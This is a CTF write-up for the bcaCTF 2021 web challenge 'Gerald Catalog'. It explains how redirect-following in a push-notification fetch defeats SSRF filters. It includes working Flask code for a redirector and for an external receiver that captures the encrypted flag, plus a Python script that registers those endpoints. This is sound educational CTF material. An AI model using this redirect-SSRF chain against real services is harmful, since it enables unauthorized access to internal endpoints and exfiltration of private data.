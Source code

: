 ```yaml
---
layout: post
title: bcaCTF 2021 - Gerald Catalog
---
```

b1c and Rogue Waves merged for a big 1st place (W over both redpwn teams!!) in bcaCTF 2021.

Though the pwn curve was pretty sad, I also solved a web challenge, Gerald Catalog.

## Gerald Catalog
Least solved challenge in the whole CTF!

The website we are given lets us view and create "Geralds". Gerald is just an image (of a stegosaurus). Each Gerald has a title and a caption. There is a Gerald with the flag, and only the admin can see it. Our goal is to get the contents of the flag Gerald.

We are also allowed to opt into push notifications. When a Gerald is viewed, we can opt into getting push notifications for view events. Viewing a corresponding Gerald will cause a push notification to be sent to one's browser, and a popup will be shown.

### source code
#### server.ts:

| Route                           | Purpose                                                                  |
|---------------------------------|--------------------------------------------------------------------------|
| GET /                           | index page                                                               |
| GET /login                      | login page                                                               |
| POST /login                     | login api                                                                |
| GET /register                   | register page                                                            |
| POST /register                  | register api                                                             |
| GET /logout                     | logout of account                                                        |
| GET /geralds                    | view one's geralds + the flag gerald                                     |
| GET /gerald/:id                 | view a specific Gerald, this also triggers push notifications to be sent |
| GET /gerald.png                 | render a Gerald image with specific caption                              |
| GET /add                        | create a Gerald page                                                     |
| POST /add                       | create a Gerald api                                                      |
| PUT /gerald/:id/subscription    | subscribe to push notifications for a specific Gerald                    |
| DELETE /gerald/:id/subscription | unsubscribe to push notifications for a specific Gerald                  |

#### notify.ts
`validateSubscription()`:
Ensures that a subscription's fields:
- have string `endpoint`
- have string `keys.auth`
- have string `keys.p256dn`
- `endpoint`:
    - no port specification (thus on either port 80 or 443)
    - hostname is not `localhost` or a Docker localhost network
    - hostname does not have `bcactf.com` in it
    - hostname does not have `192.168.` in it
    - hostname does not start with `127.`
    - protocol must be `http` or `https`

`sendNotifications()`:
Sends an encrypted `web-push` push notification that contains the id, name, and caption using `fetch` to our endpoint.

### ssrf
When we opt in for push notifications with a PUT to /gerald/:id/subscription, we can specify the endpoint for where the notification should go to. The validation in `validateSubscription` makes it seem like it was meant to prevent SSRF, so obviously we should try to find another way of achieving SSRF.

In `sendNotifications()`, `fetch` will follow all redirects that our endpoint returns. So, we can make our endpoint redirect to `localhost/path`, and `fetch` will go to that endpoint instead, giving us SSRF.

### getting the encrypted flag
Using our SSRF from before, we can get push notification containing the encrypted contents of the flag.

We will need two servers, one to redirect `fetch` for SSRF and one to receive the encrypted flag. Technically it might be possible to have one server with one application running on port 80 and another on port 443, but I just used my two existing EC2 instances.

For reference, the id of my flag Gerald was `a5721434-b800-4c97-b3cd-8f05ba6911ab`. The id of the dummy Gerald was `510afe9e-ae77-45e9-922a-fccf9914516b`.

On server A, this is the Flask code:
```python
from flask import Flask, redirect

app = Flask(__name__)

@app.errorhandler(404)
def hello(a):
        return redirect("http://127.0.0.1:1337/gerald/a5721434-b800-4c97-b3cd-8f05ba6911ab", code=302)


app.run(host='0.0.0.0', port=80)
```

The 404 error handler just makes it so that every route requested from server A will be redirected to the `localhost` url.


On server B, this is the Flask code:
```python
from flask import Flask, redirect, request
import base64

app = Flask(__name__)

@app.errorhandler(404)
def hello(a):
        print(request.headers)
        print("rcvd: ", base64.b64encode(request.data))
        return 'lol'


app.run(host='0.0.0.0', port=80)
```

This code returns the base64 encoding of any data received.

Remember that the flag will be encrypted when we receive it. Generally, browsers will do the decryption for us but I couldn't figure out how to plug encrypted output into the browser.

Instead to decrypt it, I just generated a keypair with [this site](https://tools.reactpwa.com/vapid).

The public key from that site is `p256dh`, and I just took the `auth` value from a sample request from the Network tab in developer tools. The private key from the site will be used to decrypt the encrypted flag later on.

To set up push notifications:
```python
import requests

s = requests.Session()

a = s.post("https://web.bcactf.com:49163/login", data={"username":[REDACTED], "password":[REDACTED]}, verify=False)

b = s.get("https://web.bcactf.com:49163/geralds", verify=False)

p = s.put("https://web.bcactf.com:49163/gerald/510afe9e-ae77-45e9-922a-fccf9914516b/subscription",
        headers={
            "Host": "web.bcactf.com:49163"
            },
        json={
            "endpoint":[SERVER A],
            "expirationTime":None,
            "keys": {
                "p256dh":[PUBLIC KEY],
                "auth":[AUTH FROM SAMPLE REQUEST]
            }
        }, verify=False)


p = s.put("https://web.bcactf.com:49163/gerald/a5721434-b800-4c97-b3cd-8f05ba6911ab/subscription",
        headers={
            "Host": "web.bcactf.com:49163"
            },
        json={
            "endpoint":[SERVER B],
            "expirationTime":None,
            "keys": {
                "p256dh":[PUBLIC KEY],
                "auth":[AUTH FROM SAMPLE REQUEST]
            }
        }, verify=False)

print(p.ok)
print(p.text)
```

This sets up two push notification events. One will trigger when we view `510afe9e-ae77-45e9-922a-fccf9914516b`, and will trigger the SSRF by a redirect from server A.

This causes the server to "view" `a5721434-b800-4c97-b3cd-8f05ba6911ab` when `fetch` follows the redirect. Viewing `a5721434-b800-4c97-b3cd-8f05ba6911ab` will cause another push notification containing the encrypted flag to be sent to our server B, which prints out the base64 encoding of it.

### decrypting the flag
To decrypt the flag, I used [https://github.com/web-push-libs/ecec](https://github.com/web-push-libs/ecec). There is a convenient decryption utility that is included in the build instructions.

To use it, we'll need our auth secret (the `auth` field of our request), the private key that we generated, and the URL-safe base64 version of the data received by our server.

Make sure that both the auth secret, the private key, and the message are in URL-safe base64 encoding, not just base64, or else the decryption will fail. I used [this tool](https://www.base64url.com/) to convert.

Flag: `bcactf{thanks_f0r_contributing_t0_th3_g3rard_lore_ssrf478fhgh}`